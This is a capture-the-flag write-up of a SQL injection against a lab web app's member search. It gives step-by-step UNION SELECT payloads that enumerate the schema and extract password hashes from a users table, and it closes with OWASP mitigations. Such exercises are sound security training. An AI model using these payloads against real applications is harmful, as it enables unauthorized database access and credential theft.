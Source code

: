 # Exploit

On the Members page, we see an input to search for members.  
Since this input is used to parametrize the search url, we can write a Python script to multiply queries and retrieve all members' information.  
We can see that Member #5 has an interesting name...

```
[darkly@darkly] ~/06-SQL_injection_input/Ressources # python3 scriptmembers.py
ID: 1
First name: Barack Hussein
Surname : Obama
ID: 2
First name: Adolf
Surname : Hitler
ID: 3
First name: Joseph
Surname : Staline
ID: 5
First name: Flag
Surname : GetThe
```

If we enter `1`, we can retrieve the information for the member with ID 1:  
If we enter a random string, we get an error message:

```
Unknown column 'lala' in 'where clause'
```

This hints that our input is used in the WHERE clause of an SQL statement that could look something like

```
SELECT first_name, surname FROM members_table WHERE id=<input>
```

If we enter `1 AND 1=1`, the request still works:

![](Ressources/images/1-true.jpg)

But if we enter `1 AND 1=2`, it doesn't.  
This confirms that our input is intepreted as an SQL command, since the same input is evaluated as true and then false.

We can now retrieve the names of the database tables by using UNION SELECT.
If we attempt the UNION SELECT with one element, such as:

```
1 UNION SELECT table_names FROM information_schema.tables
```

We get an error message: `The used SELECT statements have a different number of columns`  
Since the first (unavailable) part of the SQL command retrieves two elements from the database, we need to realize the UNION SELECT with two elements on the other side:

```
1 UNION SELECT table_names, 1 FROM information_schema.tables
```

With this input, we can see the entire list of database tables, among which:

![](Ressources/images/tables.jpg)

We also can see the columns of these tables:

```
1 UNION SELECT table_name, column_table FROM information_schema.columns
```

Which gives us access to all the fields of the users table:

![](Ressources/images/users.jpg)

With this information, we can look more specifically for a user.  
After trying several combination of fields (since we can only try two at a time), we enter this input:

```
1 UNION SELECT countersign, commentaire FROM users WHERE user_id=5
```

which yields

![](Ressources/images/flag.jpg)

Decrypt the password:

![](Ressources/images/decrypt.jpg)

```
[darkly@darkly] ~/03-sensitive_data_exposure/Ressources # echo -n fortytwo | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 -
```

# Mititaging the risk

As detailed in the [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html), it is recommended to:

- Use prepared statements in parametrized queries or stored procedures
- Whitelist input validation to reject unwanted patterns
- Escape all user input
